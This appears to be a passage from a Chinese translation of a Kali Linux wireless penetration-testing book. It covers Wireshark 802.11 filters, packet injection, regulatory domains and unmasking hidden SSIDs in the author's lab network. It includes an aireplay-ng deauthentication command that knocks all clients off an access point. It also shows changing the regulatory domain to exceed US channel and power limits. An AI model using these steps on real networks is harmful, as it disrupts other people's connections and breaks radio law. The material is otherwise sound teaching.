
点击IEEE 802.11无线局域网管理帧前的三角形图标即可展开查看额外信息，查看数据包中的不同头部字段，并将其与你之前学习的WLAN帧类型和子类型对应起来。

我们刚刚完成了第一批空中数据包的嗅探！我们启动的Wireshark使用的是之前创建的mon0监听模式接口。查看Wireshark的底部区域，你可以看到当前数据包的捕获速率以及已捕获的数据包总数。

Wireshark的追踪结果有时会让人望而生畏，哪怕是用户量适中的无线网络，你也可能嗅探到数千个数据包。因此，能够筛选出我们感兴趣的数据包非常重要，你可以通过Wireshark的筛选功能实现这一点。你可以探索如何使用这些筛选功能，在追踪结果中识别出唯一的无线设备，包括接入点和无线客户端。如果你还不会操作也没关系，这是我们接下来要学习的内容。


### 查看管理帧、控制帧和数据帧
现在我们将学习如何在Wireshark中应用过滤器来查看管理帧、控制帧和数据帧。请按照以下说明逐步操作：
- 要查看捕获的数据包中的所有**管理帧**，请在过滤窗口输入过滤器`wlan.fc.type == 0`，然后点击**应用**。如果你希望避免数据包滚动过快，可以停止数据包捕获。
- 要查看控制帧，请将过滤器表达式修改为`wlan.fc.type == 1`。
- 要查看数据帧，请将过滤器表达式修改为`wlan.fc.type == 2`。
- 要额外选择子类型，请使用**wlan.fc.subtype**过滤器。例如，要查看所有管理帧中的Beacon帧，请使用以下过滤器：
```
(wlan.fc.type == 0) && (wlan.fc.subtype == 8)
```
- 或者，你也可以在中间窗口的任意表头字段上点击右键，然后选择**应用为过滤器 | 所选字段**，将其添加为过滤器。
- 这将自动在Filter字段中为你添加正确的过滤器表达式。
> 你可以查阅Wireshark的官方手册，了解更多可用的过滤器表达式及其使用方法。
你可以尝试组合使用各种过滤器，直到你能够确信自己即使在非常大的数据包跟踪文件中，也能深入分析到任意层级的细节。

### 嗅探我们网络的数据包
我们将学习如何嗅探指定无线网络的数据包。为简化操作，我们将查看未加密的数据包。请按照以下说明开始操作：
- 打开我们命名为**“无线实验室”**的接入点，保持其配置为不启用加密。
- 我们首先需要找到“无线实验室”接入点运行的频道。为此，请打开终端，运行`airodump-ng --bssid <mac> mon0`，其中<mac>是**我们接入点的MAC地址**。让程序持续运行，稍后你应该能在屏幕上看到你的接入点，以及它当前运行的频道。
- 从前面的截图可以看到，我们的“无线实验室”接入点运行在11频道。请注意，你的接入点的频道可能与此不同。为了嗅探进出该接入点的数据包，我们需要将无线网卡锁定在相同的频道，也就是11频道。为此，请运行`iwconfig mon0 channel 11`命令，然后运行`iwconfig mon0`进行验证。你应该能在输出中看到**频率：2.462 GHz**的值，这对应11频道。
- 现在运行**Wireshark**，开始在mon0接口上嗅探。Wireshark开始嗅探数据包后，请在过滤区域使用`wlan.bssid == <mac>`，为我们的接入点的BSSID应用过滤器。请使用对应你接入点的正确MAC地址。

### 从mon0捕获 [Wireshark 1.8.5]
| 序号 | 时间 | 源地址 | 目的地址 | 协议 | 长度 | 信息 |
| --- | --- | --- | --- | --- | --- | --- |
| 14 | 3.104976000 | Netgear_2a:7b:c0 | Broadcast | 802.11 | 285 | Beacon |
| 16 | 3.129059000 | Netgear_2a:7b:c0 | EdimaxTe_8f:34:d5 | 802.11 | 331 | Probe Re |

```
Frame 14: 285 bytes on wire (2280 bits), 285 bytes captured (2280 bits) on interface 0
Interface id: 0
WTAP_ENCAP: 23
Arrival Time: Aug 25, 2014 20:39:45.512515000 BST
```

```
0000 00 00 12 00 2e 48 00 00 00 02 9e 09 a0 00 b0 01 .....H..........
0010 00 00 80 00 00 00 ff ff ff ff ff 9c d3 6d 2a ...........m*
0020 7b c0 9c d3 6d 2a 7b c0 20 7b 98 c2 ed b2 53 00 {...m*.{..{..S.
```

- 要查看我们接入点的数据包，请在过滤器中添加以下内容：`(wlan.bssid == <mac>) && (wlan.fc.type_subtype == 0x20)`。在客户端笔记本上打开浏览器，在地址栏输入接入点的管理界面URL。在我的案例中，正如我们在第1章《无线实验室搭建》中看到的，该地址是http://192.168.0.1。这将生成Wireshark会捕获的数据包。
- 数据包嗅探使我们能够非常轻松地分析未加密的数据包，这也是我们在无线网络中需要使用加密的原因。
> 我们刚刚使用Wireshark和多种过滤器在空中嗅探了数据包。由于我们的接入点没有启用任何加密，我们能够看到所有明文数据。这是一个重大的安全问题，因为任何处于接入点射频范围内的用户，只要使用Wireshark之类的嗅探器，就能查看所有数据包。
> 请使用Wireshark进一步分析这些数据包。你会注意到客户端会发起DHCP请求，如果存在可用的DHCP服务器，服务器会返回一个地址。随后你会看到空中的ARP数据包以及其他协议数据包。这是在无线网络上进行被动主机发现的绝佳简便方式。能够查看数据包跟踪记录，并重构无线主机上的应用程序如何与网络其余部分通信，这一点非常重要。Wireshark提供的一个有趣功能是流跟踪能力，该功能允许你将属于同一TCP会话的多个数据包放在一起查看。此外，请尝试登录[雅虎网站](http://www.yahoo.com)或其他任意热门网站，分析其产生的数据流量。

现在我们将演示如何向无线网络注入数据包。

## 数据包注入
我们将使用*aireplay-ng*工具，该工具包含在**Kali**中。请仔细遵循以下说明：
- 要进行注入测试，请先启动Wireshark，并应用过滤器表达式`(wlan.bssid == <mac>) && !(wlan.fc.type_subtype == 0x08)`。这将确保我们只能看到实验网络中非信标帧的数据包。
- 现在请在终端中运行以下命令：`aireplay-ng -9 -e Wireless Lab -a <mac> mon0`。
- 返回Wireshark，你现在应该能在屏幕上看到大量数据包。其中部分数据包是由我们启动的aireplay-ng发送的，其余则是“无线实验室”接入点响应注入的数据包而发送的。
>> 我们刚刚使用aireplay-ng成功向测试实验网络注入了数据包。需要注意的是，我们的网卡无需实际连接到“无线实验室”接入点，就能将这些任意数据包注入网络。

## **WLAN嗅探与注入的重要注意事项**
WLAN通常运行在三个不同的频段范围内：2.4 GHz、3.6 GHz以及4.9/5.0 GHz。并非所有Wi-Fi网卡都支持所有这些频段及其对应的频带。例如，Alfa网卡仅支持IEEE 802.11b/g标准，这意味着该网卡无法在802.11a/n频段下工作。这里的关键是，你要嗅探或注入特定频段的数据包，你的Wi-Fi网卡需要支持该频段。
Wi-Fi还有一个有趣的特点：在每个频段内都存在多个频道。需要注意的是，你的Wi-Fi网卡在同一时刻只能处于一个频道上，无法同时调谐到多个频道。我能想到的最恰当的类比就是汽车收音机：同一时间你只能调谐到其中一个可用频道，如果你想收听其他内容，就必须切换频道。同样的原理也适用于WLAN嗅探。由此我们可以得出一个重要结论：我们无法同时嗅探所有频道，需要选择我们感兴趣的频道。
这意味着，如果我们关注的接入点运行在1频道，我们就需要将网卡设置为1频道。尽管我们在以上段落中已经讲解了WLAN嗅探的相关内容，但同样的原理也适用于数据包注入：要在特定频道注入数据包，我们需要将网卡的射频调谐到该频道。
现在我们来做一些练习，练习内容包括将网卡设置为特定频道、频道跳频、设置监管域、功率等级等。


### 测试您的适配器
请仔细遵循以下说明：
- 1. 输入`iwconfig wlan0`命令查看您的网卡支持的功能。如下图所示，我的适配器可以工作在b、g、n频段。

- 2. 要将网卡设置为特定信道，我们使用`iwconfig mon0 channel X`命令。

- 3. iwconfig系列命令没有信道跳频模式，可以为此编写一个简单的脚本来实现该功能。更简单的方法是使用Airodump-NG，通过其选项可以随机跳频、仅使用部分信道或仅使用指定频段。运行`airodump-ng --help`时，所有选项如下图所示：
```root@kali:~# airodump-ng --help
File Edit View Search Terminal Help
Options:
  --ivs : Save only captured IVs
  --gpsd : Use GPSd
  --write <prefix> : Dump file prefix
  -w : same as --write
  --beacons : Record all beacons in dump file
  --update <secs> : Display update delay in seconds
  --showack : Prints ack/cts/rts statistics
  -h : Hides known stations for --showack
  -f <msecs> : Time in ms between hopping channels
  --berlin <secs> : Time before removing the AP/client from the screen when no more packets are received (Default: 120 seconds)
  -r <file> : Read packets from that file
  -x <msecs> : Active Scanning Simulation
  --manufacturer : Display manufacturer from IEEE OUI list
  --output-format <formats> : Output format. Possible values: pcap, ivs, csv, gps, kismet, netxml
  --ignore-negative-one : Removes the message that says fixed channel <interface: -1>

Filter options:
  --encrypt <suite> : Filter APs by cipher suite
```

| 我们了解到，无线嗅探和包注入都依赖于可用的硬件支持。这意味着我们只能在网卡允许的频段和信道上工作。此外，无线网卡的射频一次只能处于一个信道，进一步说明我们一次只能对一个信道进行嗅探或注入操作。 |
| --- |
| 如果需要同时嗅探多个信道，你需要多张物理Wi-Fi网卡。如果可以获取额外的网卡，可以尝试同时嗅探多个信道。 |

### 无线领域监管域的作用
Wi-Fi的复杂性还不止于此。每个国家都有自己的非授权频谱分配政策，明确规定了该频谱允许的功率等级和允许的使用主体。例如在美国，**美国联邦通信委员会（FCC）**负责制定相关规定，如果你在美国使用WLAN，必须遵守这些法规。在一些国家，违反这些规定属于可处罚的违法行为。现在我们来了解如何查找默认的监管域设置，以及如何在需要时修改这些设置。

### 测试您的适配器
请仔细遵循以下说明：
- 1. 重启计算机，暂时不要插入适配器。
- 2. 登录后，使用*tail*命令监控内核消息：

插入适配器后，你应该会看到如下图所示的界面，这表示已将默认的监管域设置应用于你的网卡：

- 3. 假设你位于美国，要将监管域更改为美国，我们在新终端中执行`iw reg set US`命令：

如果命令执行成功，在监控`/var/log/messages`的终端中会输出如下图所示的内容：
```root@kali:~# tail -f -n 0 /var/log/messages
Aug 25 20:00:37 kali kernel: [ 2751.341258] cfg80211: Calling CRDA for country: US
Aug 25 20:00:37 kali kernel: [ 2751.350862] cfg80211: Regulatory domain changed to country: US
Aug 25 20:00:37 kali kernel: [ 2751.350867] cfg80211: (start_freq - end_freq @ bandwidth), (max_antenna_gain, max_eirp)
Aug 25 20:00:37 kali kernel: [ 2751.350871] cfg80211: (2402000 KHz - 2472000 KHz @ 40000 KHz), (300 mBi, 2700 mBm)
Aug 25 20:00:37 kali kernel: [ 2751.350916] cfg80211: (5170000 KHz - 5250000 KHz @ 40000 KHz), (300 mBi, 1700 mBm)
Aug 25 20:00:37 kali kernel: [ 2751.350920] cfg80211: (5250000 KHz - 5330000 KHz @ 40000 KHz), (300 mBi, 2000 mBm)
Aug 25 20:00:37 kali kernel: [ 2751.350923] cfg80211: (5490000 KHz - 5600000 KHz @ 40000 KHz), (300 mBi, 2000 mBm)
Aug 25 20:00:37 kali kernel: [ 2751.350926] cfg80211: (5650000 KHz - 5710000 KHz @ 40000 KHz), (300 mBi, 2000 mBm)
Aug 25 20:00:37 kali kernel: [ 2751.350929] cfg80211: (5735000 KHz - 5835000 KHz @ 40040 KHz), (300 mBi, 3000 mBm)
```
- 4. 现在尝试将网卡切换到11信道，该操作可以成功。但当你尝试切换到12信道时，会出现错误，这是因为12信道在美国不允许使用。
```root@kali:~# iwconfig wlan1 channel 11
root@kali:~#
root@kali:~# iwconfig wlan1 channel 12
Error for wireless request "Set Frequency" (8B04) : SET failed on device wlan1 ; Invalid argument.
root@kali:~# iwconfig wlan1
wlan1     IEEE 802.11bgn  ESSID:off/any
          Mode:Managed  Frequency:2.462 GHz  Access Point: Not-Associated
          Tx-Power=27 dBm
          Retry long limit:7  RTS thr:off  Fragment thr:off
          Encryption key:off
          Power Management:on
root@kali:~#
```
- 5. 功率等级也受同样的限制。美国仅允许最高27 dBm（500毫瓦）的发射功率，因此尽管我的适配器标称功率为1瓦（30 dBm），也无法将网卡设置为最高发射功率：
```root@kali:~# iwconfig wlan1 txpower 27
root@kali:~#
root@kali:~# iwconfig wlan1 txpower 30
Error for wireless request "Set Tx Power" (8B26) : SET failed on device wlan1 ; Invalid argument.
root@kali:~#
```
- 6. 但如果我们位于玻利维亚，就可以以1瓦的功率发射，因为当地允许该功率。如图所示，一旦我们将监管域设置为玻利维亚——执行`iw reg set BO`命令——就可以将网卡功率调整为30 dBm或1瓦。此外，在美国禁止使用的12信道在玻利维亚也可以使用：


| 每个国家都有自己的非授权无线频段使用规定。当我们将监管域设置为特定国家时，网卡会遵循该国家规定的允许信道和功率等级。不过，修改网卡的监管域很容易，可以强制它使用不允许的信道，或以超出限制的功率发射。 |
| --- |
| 监管域探索： |
| 查看你可以设置的各种参数，例如信道、功率、监管域等。 |
| 在Kali中使用*iw*系列命令，这将帮助你牢固掌握在不同国家需要更改网卡设置时，如何配置网卡。 |

### 测验——WLAN数据包与注入
Q1. 在WLAN中，哪些帧类型负责认证？
- 1. 控制帧
- 2. 管理帧
- 3. 数据帧
- 4. QoS帧

Q2. 使用airmon-ng在wlan0上创建的第二个监听模式接口的名称是什么？
- 1. Mon0
- 2. Mon1
- 3. 1Mon
- 4. Monb

Q3. 在Wireshark中查看所有非信标帧的过滤表达式是什么？
- 1. `!(wlan.fc.type_subtype==0x08)`
- 2. `wlan.fc.type_subtype==0x08`
- 3. (无信标)
- 4. `Wlan.fc.type== 0x08`

### 本章总结
在本章中，我们总结了一些关于WLAN协议的关键结论。管理帧、控制帧和数据帧均未加密，因此监控空域的人可以轻易读取这些帧。需要特别注意的是，数据包的载荷可以通过加密进行保护以确保其机密性，我们将在下一章对此进行介绍。通过将网卡设置为监听模式，我们可以嗅探周围的所有空域。由于管理帧和控制帧没有完整性保护，因此非常容易通过修改这些数据包，或使用aireplay-ng等工具按原样重放来注入这些数据包。未加密的数据

## 第3章：绕过 WLAN 认证

虚假的安全感比不安全更糟糕，因为你可能没有做好面对被黑客攻击这一必然事件的准备。

WLAN 可能存在薄弱的认证方案，这些方案很容易被破解和绕过。在本章中，我们将了解 WLAN 中使用的各种基本认证方案，并学习如何破解它们。

在本章中，我们将讨论以下主题：

- 揭开隐藏的 SSID
- 击败 MAC 过滤
- 绕过开放认证
- 绕过共享密钥认证

## 隐藏的 SSID

在默认配置模式下，所有接入点都会在 Beacon 帧中发送其 SSID。这使得附近的客户端能够轻松发现它们。隐藏 SSID 是一种配置方式，接入点不会在 Beacon 帧中广播其 SSID。因此，只有知道接入点 SSID 的客户端才能连接到它。

不幸的是，这种措施并不能提供强大的安全性，但大多数网络管理员却认为它能。无论怎样，隐藏的 SSID 都不应被视为一种安全措施。现在，让我们来看看如何揭开隐藏的 SSID。

## 揭开隐藏的 SSID

按照以下步骤开始操作：

1. 使用 Wireshark，如果我们监控 Wireless Lab 网络中的 Beacon 帧，就能以明文看到 SSID。你应该能看到如下截图所示的 Beacon 帧：

   

2. 将你的接入点配置为将 Wireless Lab 网络设置为隐藏 SSID。执行此操作的配置选项可能因接入点而异。在我的情况下，我需要取消勾选 Enable SSID Broadcast 选项，如以下截图所示：

   

3. 现在，如果你查看 Wireshark 跟踪记录，你会发现 SSID Wireless Lab 已经从 Beacon 帧中消失了。这就是隐藏 SSID 的本质：

   

4. 为了绕过 Beacon 帧，我们将首先使用被动技术，等待合法客户端连接到接入点。这将生成 probe request 和 probe response 数据包，其中包含网络的 SSID，从而暴露其存在：

   

5. 或者，你可以使用 `aireplay-ng` 工具，通过输入 `aireplay-ng -0 5 -a <mac> --ignore-negative-one mon0`，代表 Wireless Lab 接入点向所有站点发送**取消认证数据包**，其中 `<mac>` 是路由器的 MAC 地址。`-0` 选项用于选择**取消认证**攻击，`5` 是要发送的取消认证数据包数量。最后，`-a` 指定你所针对的接入点的 MAC 地址：

   

6. 上述取消认证数据包将强制所有合法客户端断开连接并重新连接。最好添加一个取消认证数据包的过滤器，以便隔离查看它们：

   

7. 来自接入点的 probe response 最终将暴露其隐藏的 SSID。这些数据包将在 Wireshark 中显示如下。一旦合法客户端重新连接回来，我们就可以使用 probe request 和 probe response 帧看到隐藏的 SSID。你可以使用过滤器 `(wlan.bssid == 00:21:91:d2:8e:25) && !(wlan.fc.type_subtype == 0x08)` 来监控所有发往和来自接入点的非 Beacon 数据包。`&&` 符号代表逻辑与运算符，`!` 符号代表逻辑非运算符：

